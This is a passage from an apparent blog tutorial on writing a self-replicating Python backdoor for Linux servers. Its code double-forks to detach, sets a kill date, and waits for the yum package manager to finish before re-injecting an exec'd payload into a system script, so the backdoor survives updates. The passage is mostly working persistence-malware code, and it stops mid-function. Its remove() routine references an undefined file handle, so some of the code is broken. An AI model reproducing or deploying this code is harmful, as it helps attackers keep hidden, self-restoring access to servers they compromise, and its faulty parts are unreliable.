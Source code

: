     # here we are in the second child
    # add code here
except Exception as e:
    sys.exit(1)
{% endhighlight %}

First, we fork a new process, and the parent will just return. The child will fork again, and this new parent can just exit, while the second child, now completely separate from the original process, can do what we originally wanted to accomplish (re-add itself, re-install another backdoor, etc.). Now, if we're going to be responsible and not try to backdoor a server **forever**, we should first add a kill date to our code. After the pre-ordained date, the code should remove itself. Finally, to insert our original self-replicating function idea, we need to add code to wait for the legitimate process to complete, and then re-add itself to the original script on disk. Combining those concepts, we end up with something like this:

{% highlight python %}
thisFile = '/usr/lib/some/script'
killDay = '2020/10/01'

def timeToKill():
    dt = datetime.datetime.strptime(killDay,"%Y/%m/%d")
    if datetime.datetime.today() >= dt:
        return True
    return False

def remove():
    with open(thisFile, 'r+') as badFile:
        data = badFile.read()
        if 'badVar' in data:
            r = re.compile("\nbadVar.+exec\(badVar\)\n",re.DOTALL)
            data = re.sub(r, "", data)
            f.seek(0)
            f.write(data)
            f.truncate()

def writeBad():
    while True:
        try:
            # sleep for a while to be nice
            time.sleep(10)
            i = False
            # look for package manager pid/lock file
            for j, k, f in os.walk('/var',followlinks=True):
                if 'yum.pid' in f:
                    i = True
                    break
            # file is gone, we can add ourselves back
            if not i:
                with open(thisFile, 'r+') as badFile:
                    if 'badVar' not in badFile.read():
                        badFile.write("\nbadVar = r\'''"+badVar+"\'''\nexec(badVar)\n")
                # now we are done
                return
        except Exception as e:
            sys.exit(1)

def bad():